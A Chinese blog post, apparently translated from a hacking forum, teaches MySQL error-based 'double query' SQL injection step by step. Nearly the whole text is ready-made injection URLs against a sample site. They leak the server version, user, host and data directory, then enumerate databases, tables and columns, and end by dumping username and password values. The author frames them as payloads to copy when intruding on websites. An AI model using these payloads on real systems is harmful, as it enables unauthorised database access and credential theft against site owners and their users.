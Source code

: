 title: 双查询注入
tags:
  - 互联网
  - 学习
  - 安全
  - 翻译
id: 2726
categories:
  - 我的翻译
date: 2013-02-22 20:57:02
---

作者：bystander
论坛：法客论坛
这个东西比较难解释。我就不多解释。尽量通过这篇文章大家能够照猫画虎手注即可。想要深入理解的可以去看看mysql数据库的一些知识

介绍一下双查询注入，有时候我们通过order by 语句获取到了确定的列数，可是当我们使用union select或union select all查询的时候，

<pre class="lang:default decode:true " >f4ck.net/index.php?id=-1 union select 1,2,3,4,5,6--</pre> 

却会出现一个错误提示，列数不一致。

<pre class="lang:default decode:true " >Different Number of Columns</pre> 

而我们使用下面的语句：

<pre class="lang:default decode:true " >f4ck.net/index.php?id=1 and (select 1 from (select count(*),concat((select(select concat(cast(concat(version(),user(),@@hostname,0x7e,@@datadir) as char),0x7e)) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)</pre> 

执行之后就会显示mysql版本，用户名，服务器名, 以及数据目录…

**获取数据库里**

许多人会在上面的语句里使用:database()方法来获取数据库，

<pre class="lang:default decode:true " >f4ck.net/index.php?id=1 and (select 1 from (select count(*),concat((select(select concat(cast(database() as char),0x7e)) from information_schema.tables where table_schema=database() limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)</pre> 

可是。这个方法只能获取一个数据库。如果你入侵的网站存在多个数据库。上面这个查询就不能用了因此使用下面这个方法更好些。。

<pre class="lang:default decode:true " >f4ck.net/index.php?id=1 and(select 1 from(select count(*),concat((select (select (SELECT distinct concat(0x7e,0x27,cast(schema_name as char),0x27,0x7e) FROM information_schema.schemata LIMIT 0,1)) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a) and 1=1</pre> 

不同点在于第二个查询语句在information_schema.schemata里查询 schema_name ，这样就能查到所有的数据库了。
注意语句中的Limit 0,1会显示地一个数据库,改成 Limit 1,1 会显示第二个 Limit 2,1 会显示第三个, Limit 3,1 会显示第四个。。以此类推。
补充个：
在普通的SQL注入中，使用如下的语句

<pre class="lang:default decode:true " >f4ck.net/index.php?id=-1 union select 1,2,3,4,5,schema_name,7,8 from information_schema.schemata--</pre> 

会一次爆出所有的数据库
而使用下面的

<pre class="lang:default decode:true " >f4ck.net/index.php?id=-1 union select 1,2,3,4,5,database(),7,8--</pre> 

只会显示当前站点使用的数据库。

**获取表名**
回正题，我们继续使用双查询来获取数据库的表:

<pre class="lang:default decode:true " >f4ck.net/index.php?id=1 and(select 1 from(select count(*),concat((select (select (SELECT distinct concat(0x7e,0x27,cast(table_name as char),0x27,0x7e) FROM information_schema.tables Where table_schema=0xHEX LIMIT 0,1)) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a) and 1=1</pre> 

注意语句中的table_schema=0xHEX 这里的hex用你要查询的数据库进行hex编码后替换即可。
同样的，这里可以要修改LIMIT后面的值来得到第二个第三个第四个表。

**获取列名**
然后我们来获取列名:

<pre class="lang:default decode:true " >f4ck.net/index.php?id=1 and(select 1 from(select count(*),concat((select (select (SELECT distinct concat(0x7e,0x27,cast(column_name as char),0x27,0x7e) FROM information_schema.columns Where table_schema=0x"HEXDATABASE" AND table_name=0x"HEXTABLENAME" LIMIT 0,1)) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a) and 1=1
</pre> 

和上一句很像，注意这一句"And table_name=0xHEXEDTABLENAME"
还是一样的。后面的部分是要查询的表名的hex值，同时，通过增加后面的LIMIT值来获取更多的列名。下面是大家最感兴趣的地方。。从列里面取值。

**获取列值**
一些人使用：

<pre class="lang:default decode:true " >f4ck.net/index.php?id=1 and(select 1 from(select count(*),concat((select (select (SELECT concat(0x7e,0x27,cast("tablename"."columnname" as char),0x27,0x7e) FROM "databasename"."tablename" LIMIT 0,1) ) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a) and 1=1</pre> 

也就是他们使用tablename.columnname
有个缺点就是一次只能获取一个列的值，要是该表有个1000多列啥的。。一个个就了。。为了更快一些。后来很多人开始使用这个：

<pre class="lang:default decode:true " >f4ck.net/index.php?id=1 and (select 1 from (select count(*),concat((select concat(username,0x7e,pass,0x7e7e) from "table" limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)</pre> 

这样一次就能获取多个列的值了，但是还有个bug，因为是直接从mysql的所有表里面找，并且没有指定数据库名，如果mysql有两个数据库有同样的一个表名。那么这样找出来的就不知道到底是哪个了。。就混乱了。。所以。现在我们用这个：

<pre class="lang:default decode:true " >f4ck.net/index.php?id=1 and (select 1 from (select count(*),concat((select(select concat(cast(concat(COLUMN_NAME,0x7e,COLUMN_NAME) as char),0x7e)) from database.table limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)</pre> 

好处一个是可以一次获取多个列的值，同时使用 database.table, 可以明确我们要找的表了。不要忘了增加LIMIT来获取下一条记录啊

错误之处还请指正。